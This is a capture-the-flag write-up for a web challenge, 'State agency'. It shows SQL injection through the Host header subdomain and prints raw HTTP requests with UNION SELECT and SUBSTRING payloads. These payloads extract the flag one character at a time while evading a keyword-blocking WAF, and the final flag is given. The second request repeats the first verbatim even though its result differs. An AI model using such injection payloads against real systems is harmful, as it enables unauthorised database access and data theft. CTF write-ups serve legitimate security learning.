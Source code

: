 ## State agency

### Description:
This state agency has some secrets. Exfiltrate those.
http://state-agency.tux.ro/

### Author: 
Lucian Nitescu

### Stats: 
382 point / 5 solvers

### Solution:  

The challenge started with this simple website:

![alt text](./img/1.png "1")

Example of an "article":

![alt text](./img/2.png "2")

By removing the parameters (example: "?Keyium=5889&Name=20+hacker+cats!&Owner=SA&Permission=cHVibGljcHVibGljcHVibGljcHVibGljcHVibGljcHVibGlj") we get the same response as before. The only input is the subdomain name. By setting it to 5888 we get:

![alt text](./img/3.png "3")

The answer is a hint to an SQL injection challenge and also when we arrive on 5885 we get:

![alt text](./img/4.png "4")

If we will perform an basic SQL injection in the subdomain name we will get:

```
GET / HTTP/1.1
Host: 5885 ') or 1 ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt text](./img/5.png "5")

The only way to bypass the "WAF" is to avoid certain requests. Also if you obtain in your response "DCTF", "{" or "}" your request will be blocked and you will receive "the Private data exfiltration attempt blocked" response. One way of extracting the flag is to extract characters as such:

HTTP Request:

````
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: D

HTTP Request:

````
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: DCT

Until you will get that the flag is: DCTF{8bd68b9d0b517ae71d32c62d7d00cbf27822d5014d1a8483684e19fbea99c44f}